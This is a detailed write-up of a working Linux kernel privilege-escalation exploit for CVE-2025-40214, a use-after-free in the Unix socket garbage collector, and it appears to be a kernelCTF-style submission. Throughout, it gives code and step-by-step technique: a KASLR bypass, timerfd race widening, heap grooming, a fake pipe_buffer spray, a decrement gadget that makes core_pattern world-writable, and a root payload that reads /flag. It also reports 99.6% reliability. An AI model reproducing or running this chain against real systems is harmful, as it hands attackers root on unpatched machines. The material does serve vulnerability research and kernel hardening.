

# CVE-2025-40214

The vulnerability causes a UAF on `struct sk_buff` (skb) and `struct scm_fp_list` carrying files inside the skb by making the Unix Sockets GC incorrectly purge receive queues of sockets that are still reachable from userspace.

## Overview

The exploit goes through these stages:

0. Prerequisites: bypass KASLR via a prefetch side-channel.
1. Preparation: build a GC cycle and free some vertices to leave `scc_index` of the cycle in the `struct unix_vertex` slab.
2. Trigger vulnerability: create `receiver_vertex` that inherits the sprayed `scc_index`.
3. Heap grooming: saturate the filp slab cache.
4. Pivot `struct scm_fp_list` UAF into a file descriptor pointing to a freed filp slot.
5. Make the file descriptor point to a pipe read-end.
6. Grow `pipe->bufs` to more than 8,192 bytes to force a direct allocation from buddy bypassing mitigations.
7. Free `pipe->bufs` and reclaim the Order-2 page with fake `pipe_buffer` structures.
8. Trigger RIP control via `splice` -> `pipe_buf_confirm()` -> `pipe->bufs[0]->ops->confirm()` -> decrement gadget targeting `core_pattern.mode`.
9. Overwrite `core_pattern` and escalate privileges.

### Environmental Requirements

- **`RLIMIT_NOFILE` = 4000**: Not strictly required, but with the increased limit the exploit works faster because file descriptors are used to widen race windows via many timerfds, many dummy sockets in the Unix GC socket cycle graph, and we can spray many files without worrying about the limits.
- **`pin_to_cpu(0)` / `pin_to_cpu(1)`**: The GC thread and the recv thread are pinned to separate CPUs. This is required for the race:
   1. The timerfd irq must widen a race window on the correct CPU.
   2. The threads must race and not be scheduled sequentially.
   3. All file allocations happen on CPU 0. The `scm_fp_dup` loop with `get_file` runs on CPU 1. Since the file objects were allocated on a different CPU and are not present in CPU1 caches, every `get_file` call hits a cache miss, which widens the second race window.

### Step 0: Prerequisites

#### KASLR Bypass

We use a `prefetch` timing side-channel to bypass KASLR, based on [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html) (CVE-2022-4543). The implementation uses the `leak_kaslr_base()` function from [libxdk](https://github.com/google/kernel-research/commit/62adf039e79c26e0288e996858bcd50c2ce3a3e7).

#### Decrement gadget via kernel vtable (`ql_ps.end_io`)

After the KASLR leak, we find a kernel vtable field that already contains a pointer to a decrement gadget. The [DirtyMode](novel-techniques.md#dirtymode-privilege-escalation-with-weak-write-primitives) technique gives access to many gadgets across the kernel image; among them, `ql_end_io` from `drivers/md/dm-ps-queue-length.c` is a clean decrement:

```asm
ql_end_io:
  callq  __fentry__
  movq   0x8(%rsi), %rax
  lock   decl 0x1c(%rax)
  xorl   %eax, %eax
  jmp    __x86_return_thunk
```

`ql_end_io` is referenced by the static `path_selector_type ql_ps` structure in the kernel's `.data` section as `ql_ps.end_io`. The address `&ql_ps.end_io` is computable from the KASLR base alone. When `pipe_buffer.ops` is set to this address, the kernel reads `ops->confirm` (offset 0x00), which yields the `ql_end_io` function pointer - the decrement gadget. No fake vtable spray is needed.

```c
static struct path_selector_type ql_ps = {
	// ...
	.start_io	= ql_start_io, // increment gadget
	.end_io		= ql_end_io, // decrement gadget
};
```

This approach replaces the earlier [NPerm](../../CVE-2025-38477_cos/docs/novel-techniques.md#leave-payload-next-to-kernel-resource-nperm) technique that sprayed nearly all physical memory with a fake vtable. NPerm was the sole source of instability (~88-92% reliability) because the sprayed physical page could be reclaimed by the kernel between the spray and the RIP control trigger. Using a pre-existing kernel vtable eliminates this failure mode entirely.

### Step 1: Preparation

Visualization of this step:

https://github.com/user-attachments/assets/877d016b-311e-4530-8972-1f8c7076dabe

The internal unix GC graph is built by the following rules:

1. Each vertex is a socket that is inflight (sent to another socket via SCM_RIGHTS)
2. Each edge goes from the sent socket (predecessor) to the receiver socket (successor)
3. Each vertex has the index of a SCC that is assigned by Tarjan's algorithm

The vulnerable structure:

```c
struct unix_vertex {
	struct list_head edges;
	struct list_head entry;
	struct list_head scc_entry;
	unsigned long out_degree;
	unsigned long index;
	unsigned long scc_index; // is uninitialized
};
```

In the exploit we have these key sockets:

1. `victim_socket` - the socket whose receive queue will be purged by GC because of the vulnerability. We send eventfd files to this socket so we can peek freed files in [Step 4](#step-4-race-between-gc-fast-path-and-scm_fp_dup).
2. `receiver_socket` - helps us get the `victim_socket` back to user space as a file descriptor. This is needed because the GC also checks that there are no userspace references to the file at the time of the `unix_vertex_dead(victim_vertex)` check.
3. `tail_socket` - we send the `receiver_socket` to this socket so the `receiver_vertex` gets created. This vertex picks up the sprayed `scc_index` while it actually belongs to a different SCC.

#### Step 1.1: Initial graph setup

Here we build a long GC cycle. We add spray vertices to this cycle so that when we `recv()` them, their freed `unix_vertex` structures still contain the cycle's `scc_index`.

We need a long cycle to increase the GC window from `unix_vertex_dead(victim_vertex)` to `skb_queue_splice_init(victim_socket.receive_queue)` so we can access the victim's receive queue during the pivot race. We also expand this window using a timerfd interrupt storm.

The cycle size is set by `NUM_DUMMY`:

```c
#define NUM_DUMMY          100
```

This parameter influences timings: increasing it widens the race window (the GC spends more time iterating over the SCC), but also means we must stall in the `recvmsg` longer during the race, which requires more timerfd interrupts.

Also, freeing by the GC all these dummy sockets returns many `struct file` objects to the `filp` slab cache, increasing the number of free slots and reducing the spray hit rate.

Current internal state of the GC:

```js
unix_graph_grouped = false
unix_graph_maybe_cyclic = true
vertices.scc_index = 0 // because CONFIG_SLAB_VIRTUAL always zeroes pages on alloc via gfp_flags |= __GFP_ZERO;
```

#### Step 1.2: Tarjan's slow path sets `scc_index` = 2

Now we trigger the unix GC. `unix_graph_grouped` is false, so the GC runs Tarjan's algorithm. It assigns `scc_index` to each vertex. Since we have 1 monolithic cycle, all vertices get `scc_index` = 2 (`UNIX_VERTEX_INDEX_START`).

```c
enum unix_vertex_index {
	UNIX_VERTEX_INDEX_MARK1,
	UNIX_VERTEX_INDEX_MARK2,
	UNIX_VERTEX_INDEX_START,
};
```

#### Step 1.3: Free & spray

We need to spray memory with `scc_index` from our cycle so that new vertex allocations get the same index by default. The best way is to `recv()` sockets from the cycle. Since `unix_vertex` is allocated from a random kmalloc cache, receiving from our own cycle is the most reliable way to spray without fighting `CONFIG_RANDOM_KMALLOC_CACHES`.

```c
kmalloc(sizeof(*vertex), GFP_KERNEL);
```

`recv()` -> `unix_destroy_fpl()` -> `kfree(spray_vertex)`

### Step 2: Trigger vulnerability

We send the victim socket to the receiver socket so we can get it back later. We also send the receiver socket to the tail socket so the `receiver_vertex` gets created inheriting the sprayed `scc_index`.

`unix_vertex_dead()` checks two things for each vertex in a SCC found by Tarjan's algorithm:

```c
list_for_each_entry(edge, &vertex->edges, vertex_entry) {
		struct unix_vertex *next_vertex = unix_edge_successor(edge);

		/* The vertex's fd can be received by a non-inflight socket. */
		if (!next_vertex)
			return false;

		/* The vertex's fd can be received by an inflight socket in
		 * another SCC.
		 */
		if (next_vertex->scc_index != vertex->scc_index)
			return false;
}
```

The second check is bypassed because the new `receiver_vertex` picks up the sprayed `scc_index`.

The relevant state at the end of this step:

```js
unix_graph_grouped = true
unix_graph_maybe_cyclic = true
victim_vertex.scc_index = receiver_vertex.scc_index = 2 // here the GC invariant is broken
```

`unix_graph_grouped` is updated in `unix_update_graph(successor_vertex)` when a socket is sent to another inflight socket. Since all sockets we send to are not inflight at the time of sending, this flag stays true.

```c
static void unix_update_graph(struct unix_vertex *vertex)
{
	/* If the receiver socket is not inflight, no cyclic
	 * reference could be formed.
	 */
	if (!vertex)
		return;

	unix_graph_maybe_cyclic = true;
	unix_graph_grouped = false;
}
```

The next GC round will go through the fast path (`unix_walk_scc_fast`) since `unix_graph_grouped` is true from the preparation step. `unix_vertex_dead(victim_vertex)` will return true since `victim_vertex.scc_index == receiver_vertex.scc_index` and all victim's references are inflight with no userspace references.

This gives us a UAF on `struct scm_fp_list` (lives in `skb->fp`) because the GC purges the `receive_queue` of the `victim_socket` while we can receive the `victim_socket` from the `receiver_socket` and access the freed `struct scm_fp_list`.

### Step 3: Heap grooming

Before starting the race, we groom the filp cache by opening 300 (`GROOM_FILES_COUNT`) eventfds:

```c
static void groom_filp_cache() {
    for (int i = 0; i < GROOM_FILES_COUNT; i++) {
        eventfd(0, EFD_NONBLOCK);
    }
}
```

This fills up the current slab so the `target_file` ends up in a full slab page. When the GC frees the `target_file`, its slab page goes to the cpu partial list. We also drain the cpu partial list so the slabs count does not exceed the maximum for a CPU.

### Step 4: Race between GC fast path and `scm_fp_dup()`

The GC will purge the `victim_socket`'s receive queue, freeing the skbs that carry our eventfd files (including the `target_file`). To exploit this on the mitigation instance we convert the skb UAF into a UAF on `struct file`. This avoids fighting slab mitigations for the skb object itself.

The race window on CPU0 running the GC kworker lies between `unix_vertex_dead(victim_vertex)` (marks the vertex as garbage, must not have any userspace references at this point) and `skb_queue_splice_init(victim_socket.receive_queue)` (destroys the receive queue, so we must peek the victim before this).

We need to get our victim socket back as a file descriptor. This must happen inside the GC window above. For this we have the `receiver_socket` that holds our `victim_socket` in its receive queue. Since a normal `recv()` calls `scm_stat_del()` which takes `unix_gc_lock`, we use MSG_PEEK instead.

```c
static void scm_stat_del(struct sock *sk, struct sk_buff *skb)
{
	struct scm_fp_list *fp = UNIXCB(skb).fp;
	struct unix_sock *u = unix_sk(sk);

	if (unlikely(fp && fp->count)) {
		atomic_sub(fp->count, &u->scm_stat.nr_fds);
		unix_del_edges(fp);
	}
}

void unix_del_edges(struct scm_fp_list *fpl)
{
	struct unix_sock *receiver;
	int i = 0;

	spin_lock(&unix_gc_lock); // would block until GC finishes, killing our race
	// ...
}
```

For this window we have the `gc_delay` parameter. It controls when the recv thread starts the first `recv(receiver_socket)` relative to the GC trigger. It also sets the start of the timerfd interrupt storm on CPU 0. The timer storm expands the GC race window from thousands of nanoseconds to about 4,000 (`TIMER_STEP_NS`) x 100 (`NUM_TRIGGER_TIMERS`) = 400 microseconds.

In this 400 microsecond window we have to finish `recv(receiver_socket)` and enter `recv(victim_socket)` (before the socket queue is spliced). We use MSG_PEEK for the victim socket as well because the race window is much wider this way.

The challenge: `skb.fp` is saved and then set to NULL before `fput()` is called for each file inside the skb. When the GC purges the receive queue, each skb is freed via its destructor `unix_destruct_scm()`:

```c
static void unix_destruct_scm(struct sk_buff *skb)
{
	struct scm_cookie scm;

	memset(&scm, 0, sizeof(scm));
	scm.pid  = UNIXCB(skb).pid;
	if (UNIXCB(skb).fp)
		unix_detach_fds(&scm, skb);

	scm_destroy(&scm); // calls __scm_destroy
	sock_wfree(skb);
}

static void unix_detach_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = UNIXCB(skb).fp;
	UNIXCB(skb).fp = NULL; // skb.fp is NULL from here

	unix_destroy_fpl(scm->fp);
}

void __scm_destroy(struct scm_cookie *scm)
{
	struct scm_fp_list *fpl = scm->fp;
	int i;

	if (fpl) {
		scm->fp = NULL;
		for (i=fpl->count-1; i>=0; i--)
			fput(fpl->fp[i]);
		free_uid(fpl->user);
		kfree(fpl);
	}
}
```

With a normal `recv(victim_socket)` (without MSG_PEEK) we would also call `unix_detach_fds()` and the race window would be only a few instructions wide. But with MSG_PEEK it goes through `unix_peek_fds()`, which calls `scm_fp_dup()`:

```c
static void unix_peek_fds(struct scm_cookie *scm, struct sk_buff *skb)
{
	scm->fp = scm_fp_dup(UNIXCB(skb).fp);
}
```

The pointer is cached in `scm_fp_dup()`. So our CPU1 race window is from the moment `fpl` is saved until `f_count` is incremented via `get_file()` in `scm_fp_dup()`.

The second race window is in the code below. There is a `kmemdup()` call and the loop with `get_file(fp[i])`. We can increase the window with many files because every `get_file()` can hit a cache miss. We send up to 253 files at once. The window is further expanded by a timerfd interrupt storm.

The exploit sends 251 files per skb (`NUM_EVENTFDS_BATCH`), not 253. The file pointers are stored in `struct scm_fp_list` allocated in `kmalloc-cg-4096`.

```c
#define SCM_MAX_FD	253

struct scm_fp_list {
	short			count;
	short			count_unix;
	short			max;
#ifdef CONFIG_UNIX
	bool			inflight;
	bool			dead;
	struct list_head	vertices;
	struct unix_edge	*edges;
#endif
	struct user_struct	*user;
	struct file		*fp[SCM_MAX_FD];
};

fpl = kmalloc(sizeof(struct scm_fp_list), GFP_KERNEL_ACCOUNT);
```

There is a 40-byte header followed by the file pointers. When the GC frees this structure, the allocator sets the freelist pointer at offset 2048, which overlaps with the 252nd file pointer. It is easier to just send 251 files and avoid dereferencing of the freelist pointer.

On the mitigation instance with `CONFIG_RANDOM_KMALLOC_CACHES` there is a very low probability of reclaiming from other threads, so the first 251 file pointers in the freed structure stay intact.

```c
struct scm_fp_list *scm_fp_dup(struct scm_fp_list *fpl)
{ // Race Window start
  struct scm_fp_list *new_fpl;
  int i;

  if (!fpl)
    return NULL;

  new_fpl = kmemdup(fpl, offsetof(struct scm_fp_list, fp[fpl->count]),
              GFP_KERNEL_ACCOUNT);
  if (new_fpl) {
     for (i = 0; i < fpl->count; i++)
       get_file(fpl->fp[i]); // Race Window end
  }
  return new_fpl;
}
```

Note that in the `get_file` loop we use the original `fpl`, not the copy made by `kmemdup`.

We close the last eventfd - it will be our `target_file`. It is the last because the race window ends at the `target_file` and we want to make it as long as possible.

In this race window the unix GC must finish `unix_destruct_scm()`, causing `target_file.f_count` to drop to zero via `fput()` in `__scm_destroy()` and a delayed work freeing the `target_file` is queued. In `scm_fp_dup` the `get_file(target_file)` increments `target_file`'s refcount from 0. If serial output for kernel messages is enabled, the warning in `get_file()` stalls execution for about 100ms:

```c
static inline struct file *get_file(struct file *f)
{
	long prior = atomic_long_fetch_inc_relaxed(&f->f_count);
	WARN_ONCE(!prior, "struct file::f_count incremented from zero; use-after-free condition present!\n");
	return f;
}
```

In this ~100ms window we wait for the queued `delayed_fput` delayed work to free the file slot and then spray eventfds to reclaim it. We open 300 (`NUM_EVENTFDS_SPRAY`) eventfds. Each eventfd is created with counter `i + 1` so we can later identify which one reclaimed the slot by reading the counter through the UAF alias. We must reclaim the slot because `recv(MSG_PEEK)` will run security hooks in `receive_fd()` and if we don't reclaim the memory with a valid `struct file` then the kernel will dereference the `f_security` field [2] which was nullified during freeing [1]:

```c
void security_file_free(struct file *file)
{
	void *blob;

	call_void_hook(file_free_security, file);

	blob = file->f_security;
	if (blob) {
		file->f_security = NULL;                    // [1]
		kmem_cache_free(lsm_file_cache, blob);
	}
}

int receive_fd(struct file *file, int __user *ufd, unsigned int o_flags)
{
	int new_fd;
	int error;

	error = security_file_receive(file);            // [2]
	if (error)
		return error;

	// ...

	fd_install(new_fd, get_file(file));

	// ...
}
```

The `scm_fp_dup_delay` parameter controls the start of the second timerfd storm. It starts at `RECV_DELAY_START` = 1,000 nanoseconds and is dynamically increased by `RECV_DELAY_STEP_NS` = 100ns each retry, up to `RECV_DELAY_MAX` = 5,000ns.

For reliable timing we give `RECV_FD_BUDGET_NS` (50us) for the first `recv(receiver_socket)` to complete. With this time buffer we can set up the second timerfd storm with good timing accuracy.

#### Expanding race windows with timerfd interrupt storm

Both race windows are expanded using a timerfd interrupt storm. We pick a start point in the future and set up multiple `timerfd` timers, each 4us (`TIMER_STEP_NS`) apart:

```c
static void setup_timerfd_storm(int count, struct timespec *base, long offset_ns) {
    for (int i = 0; i < count; i++) {
        int tfd = timerfd_create(CLOCK_MONOTONIC, TFD_NONBLOCK);
        if (tfd < 0) exit(1);
        struct timespec timer_ts = *base;
        timespec_add_ns(&timer_ts, offset_ns + (long)i * TIMER_STEP_NS);
        setup_timerfd_abs(tfd, &timer_ts);
    }
}
```

The 4us step was picked empirically. By the time the kernel finishes handling one timer interrupt, the next one is already pending. This keeps the CPU busy in interrupt context for the entire duration of the storm. If the step is too small, timers coalesce into one interrupt batch and the storm ends early. If too large, there are gaps where the kernel code resumes.

Setting all timers to the same time does not work well either. The kernel handles them all in a single interrupt batch and returns quickly, so the stall is very short. Spreading them out produces a much longer and more reliable stall.

For Race Window CPU0: 100 (`NUM_TRIGGER_TIMERS`) timers * 4us = ~400us stall on CPU 0. This expands the window between `unix_vertex_dead()` and `skb_queue_splice_init()`.

For Race Window CPU1: 250 (`NUM_RECV_TIMERS`) timers * 4us = ~1000us stall on CPU 1. This expands the window between pointer load in `scm_fp_dup()` and `get_file()`. After `get_file()` increments `f_count` from 0, the `WARN_ONCE` fires and dmesg I/O blocks CPU 1 for another ~100ms. This extra delay gives the GC thread enough time to finish `unix_destruct_scm()`, return to user space, wait for the delayed `delayed_fput` work (20ms), and reclaim the freed file memory with the eventfd spray.

Overall race scheme:



### Step 5: Replace eventfd with pipe read-end

After the race we have 2 file descriptors pointing to the same `struct file` with `f_count` = 1. One is the UAF alias fd (from `recv(victim_socket, MSG_PEEK)`), and the other is one of the spray eventfds.

We read the eventfd counter through the UAF alias. Since each spray eventfd was created with counter `i + 1`, the value tells us exactly which spray fd reclaimed the slot. We close only that specific spray fd, freeing the `struct file` back to the filp cache.

Then we spray pipes in batches. Pipe files are also allocated from the filp cache, so one of them reclaims the `target_file` slot. We match via `fstat` inode comparison and check that the UAF alias is a read end of a pipe. If not, we retry with a new batch.

```c
static pipe_fds convert_uaf_file_into_pipe(int *spray_fds, int uaf_alias_fd) {
    uint64_t val;
    if (read(uaf_alias_fd, &val, sizeof(val)) == sizeof(val) &&
        val >= 1 && val <= NUM_EVENTFDS_SPRAY) {
        close(spray_fds[val - 1]);
    }

    pipe_fds fds = spray_pipes_and_match(uaf_alias_fd);
    if (fds.read < 0) {
        printf("pipe match not found\n");
        exit(1);
    }
    return fds;
}
```

As a result, the UAF alias fd and the matched pipe read fd both point to the same pipe read-end with `f_count` = 1.

### Step 6: Grow `pipe_buffers` outside the slab

We increase the `pipe_buffers` array size via `fcntl()`:

```c
fcntl(uaf_pipe->write, F_SETPIPE_SZ, PIPE_GROW_NUM_BUFFERS * PAGE_SIZE);
```

Each `pipe_buffer` is 40 bytes. We request 250 elements, which rounds up to 256 (nearest power of 2). So `pipe->bufs` = 256 * 40 = 10,240 bytes. Since this exceeds `KMALLOC_MAX_CACHE_SIZE` (8,192 bytes), the allocation goes through `kmalloc_large` -> page allocator, bypassing both `SLAB_VIRTUAL` and `CONFIG_RANDOM_KMALLOC_CACHES`.

```c
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};
```

```c
pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
			     GFP_KERNEL_ACCOUNT);
```

```c
#define KMALLOC_SHIFT_HIGH	(PAGE_SHIFT + 1) // 12 + 1 = 13
// ...
#define KMALLOC_MAX_CACHE_SIZE	(1UL << KMALLOC_SHIFT_HIGH) // 8,192 bytes
```

```c
void *__do_kmalloc_node(size_t size, kmem_buckets *b, gfp_t flags, int node,
			unsigned long caller)
{
	struct kmem_cache *s;
	void *ret;

	if (unlikely(size > KMALLOC_MAX_CACHE_SIZE)) { // size is 10,240 bytes and this is true
		ret = __kmalloc_large_node_noprof(size, flags, node);
		trace_kmalloc(caller, ret, size,
				  PAGE_SIZE << get_order(size), flags, node);
		return ret;
	}
	// ...
}
```

We also write a byte to the pipe so `!pipe_empty(head, tail)` is true and splice will call `pipe_buf_confirm()` later.

### Step 7: Free `pipe->bufs` and spray fake `pipe_buffer` structures

Before closing the pipe, we pre-create the socket pair for Step 8. This avoids any allocations from the `socketpair()` call reclaiming the filp slot of the UAF file.

Then we close both pipe fds. After the last close, the pipe is freed along with `pipe->bufs`. But the UAF alias fd still references the pipe through the freed `struct file`, so `pipe->bufs` is still pointing to the freed memory.

After `kfree(pipe->bufs)` the Order-2 page goes straight to PCP. The next Order-2 allocation will pick this page. We reclaim it with a socket write that carries attacker-controlled data:

```c
static void spray_fake_pipe_buffers(int spray_socket_fd, Target *target, uint64_t kernel_base) {
    char *buf = (char*)malloc(PIPE_BUF_DATA_SIZE);
    memset(buf, 0, PIPE_BUF_DATA_SIZE);

    uint64_t pipe_buffer_ops_off = target->GetFieldOffset("pipe_buffer", "ops");

    uint64_t ql_ps_end_io = kernel_base + target->GetSymbolOffset("ql_ps.end_io");
    uint64_t dec_target = kernel_base + target->GetSymbolOffset("core_pattern_mode") - DEC_GADGET_DEREF_OFFS;

    // pipe_buffer.ops -> &ql_ps.end_io (kernel vtable)
    // ops->confirm (offset 0x00) reads the ql_end_io function pointer = decrement gadget
    *(uint64_t*)(buf + pipe_buffer_ops_off) = ql_ps_end_io;
    // ql_end_io: movq 0x8(%rsi), %rax; lock decl 0x1c(%rax)
    // -> decrements core_pattern_mode from 0644 to 0643
    *(uint64_t*)(buf + DEC_GADGET_READ_OFFS) = dec_target;

    // Reclaim the freed Order-2 page with attacker-controlled data via socket write buffer.
    write(spray_socket_fd, buf, PIPE_BUF_DATA_SIZE);
}
```

`pipe_buffer.ops` is set to `&ql_ps.end_io` - the address of the `end_io` field inside the static `path_selector_type ql_ps` structure. This address is in the kernel's `.data` section and is computable from the KASLR base (see [Step 0](#decrement-gadget-via-kernel-vtable-ql_psend_io)). When the kernel reads `ops->confirm` (offset 0x00), it gets the `ql_end_io` function pointer - the decrement gadget: `movq 0x8(%rsi), %rax; lock decl 0x1c(%rax)`.

We target `sysctl.core_pattern.mode` which is 0644 by default. After the decrement it becomes 0643 and the file is world-writable.

### Step 8: RIP control via `pipe_buf_confirm` gadget

Before the splice we call `unshare(CLONE_FILES)`. This makes sure `fdget()` uses the light path without `atomic_inc_not_zero()` on `struct file`. Without this, the kernel would get stuck in a loop trying to increment `f_count` on a freed file.

We shut down the splice target socket's write end so `unix_stream_sendmsg` returns early with `-EPIPE`, and ignore `SIGPIPE` to prevent the signal from killing the process.

Then we call `splice(pipe_read_fd, NULL, splice_target_fd, NULL, 1, 0)` on the UAF alias fd.

Internally `splice_to_socket()` sees the pipe is not empty (we wrote a byte in Step 6) and calls `pipe_buf_confirm(pipe, buf)` [1] on our fake pipe_buffer. The `ops->confirm` call dereferences our fake ops pointer, which points to `&ql_ps.end_io`, reading the `ql_end_io` function pointer. The gadget reads `dec_target` from `pipe_buffer + 0x8` into `rax`, decrements `rax + 0x1c` (which is `core_pattern.mode`), zeroes `eax`, and returns via `__x86_return_thunk`.

Since the gadget returns 0, execution continues into `unix_stream_sendmsg`, which returns `-EPIPE` because the socket was shut down [2].

```c
ssize_t splice_to_socket(struct pipe_inode_info *pipe, struct file *out,
			 loff_t *ppos, size_t len, unsigned int flags)
{
	// ...

	while (len > 0) {
		// ...

		while (pipe_empty(pipe->head, pipe->tail)) {
			// ...

			pipe_wait_readable(pipe);
		}

		// ...

		while (!pipe_empty(head, tail)) {
			// ...

			ret = pipe_buf_confirm(pipe, buf);          // [1]
			if (unlikely(ret)) { // gadget zeroes rax so we don't break
				if (ret == -ENODATA)
					ret = 0;
				break;
			}

			// ...
		}

		// ...

		ret = sock_sendmsg(sock, &msg);
		if (ret <= 0) // we forced early exit so ret = -EPIPE
			break;
		// ...
	}

out:
	pipe_unlock(pipe);
	if (need_wakeup)
		wakeup_pipe_writers(pipe);
	return spliced ?: ret;
}


static int unix_stream_sendmsg(struct socket *sock, struct msghdr *msg,
			       size_t len)
{
	// ...

	// we must force early exit to not deal with corrupted structures
	if (READ_ONCE(sk->sk_shutdown) & SEND_SHUTDOWN)
		goto pipe_err;                                  // [2]

	// ...
}
```

After the splice, we need to clean up the UAF alias fd which points to a `struct file` with `f_count == 0`. The `corrupted_fd_cleanup()` function handles this: it sprays memfds to reclaim the freed filp slot, calls `mmap()` on the UAF alias fd to bump `f_count` via the mapping reference, closes the UAF alias fd, then unmaps. The unmap drops the last reference, giving `f_count == -1`, but the file is about to be freed anyway so this is safe.

### Step 9: Privilege escalation via `core_pattern`

After the splice, `sysctl.core_pattern.mode` has been decremented from 0644 to 0643, making it world-writable. We check the permissions of `/proc/sys/kernel/core_pattern` to confirm. Then we write the payload `|/bin/dd if=/flag of=/dev/kmsg` to `core_pattern`. Finally, we crash a child process and the kernel runs our handler as root, piping the flag to the kernel log.

```c
{
	.procname	= "core_pattern",
	.data		= core_pattern,
	.maxlen		= CORENAME_MAX_SIZE,
	// in .data section, so with kaslr leak it is easy
	// to make it writable by many weak write primitives
	.mode		= 0644,
	.proc_handler	= proc_dostring_coredump,
}
```

## Reliability

Overall reliability: **99.6%**, measured across 1000 runs on the `mitigation-v4-6.12` instance (996 wins, 4 crashes).

All 4 crashes were null `f_security` dereferences: the eventfds spray failed to reclaim the `target_file` slot. This can be mitigated by sending all sockets from the chain to the receiver. In that case all these files won't be freed and the only file that we need to reclaim will be the `target_file` on the current CPU partial slab.

Also there is other method of exploitation without this failure mode: reclaim the freed `scm_fp_list` with other `scm_fp_list` (same slab reclamation). In that case we can force the kernel to increment `f_count` of different files which results in 2 file descriptors pointing to a `struct file` with `f_count == 1`. If the reclamation is failed the race simply discarded without any consequences in the kernel.

The high reliability is ensured by:

1. Heap grooming and a small number of sockets in the cycle (100) to keep deterministic `target_file` reclamation
2. Growing `pipe->bufs` to Order-2 for a reliable one-shot reclamation outside the slab (also bypasses the mitigations)
3. Using a pre-existing kernel vtable (`ql_ps.end_io`) for `pipe_buffer->ops` instead of spraying a fake vtable
4. Forked attempts to automatically cleanup after a failed race

### Note on previous NPerm-based approach

An earlier version of this exploit used the [NPerm](../../CVE-2025-38477_cos/docs/novel-techniques.md#leave-payload-next-to-kernel-resource-nperm) technique to spray physical pages with a fake `pipe_buf_operations` vtable. This achieved ~88-92% reliability (176-184 wins out of 200 runs). All crashes were caused by NPerm spray degradation: between the spray and the RIP control trigger, the kernel could reclaim the physical page containing the fake vtable, leading to GPFs or page faults. Switching to a pre-existing kernel vtable (`ql_ps.end_io`) eliminated this failure mode entirely, raising reliability to near 100%.

#### NPerm crash distribution (24 crashes out of 200 runs)

| Crash type | Count | % of crashes | Root cause |
|---|---|---|---|
| `splice_to_socket` GPF, `RAX=0xcccccccccccccccc` | 9 | 37.5% | NPerm page not reclaimed: `pipe_buf_operations.confirm` reads uninitialized (poisoned) memory |
| `skb_splice_from_iter` stack segment, `RAX=0x747` | 13 | 54.2% | NPerm page zeroed: the `.init` physical page was reclaimed and cleared, so `ops->confirm = NULL` and `pipe_buf_confirm()` returns 0 without calling the gadget. Execution continues into `splice_to_socket` -> `skb_splice_from_iter`, which dereferences the fake `pipe_buffer` fields (page, offset, len) filled with `'G'` (0x47) canary from the Order-2 page spray |
| Page fault on unmapped userspace address | 2 | 8.3% | NPerm page overwritten: the `.init` physical page was reclaimed and filled with unrelated kernel data, so `ops->confirm` points to an unmapped address |
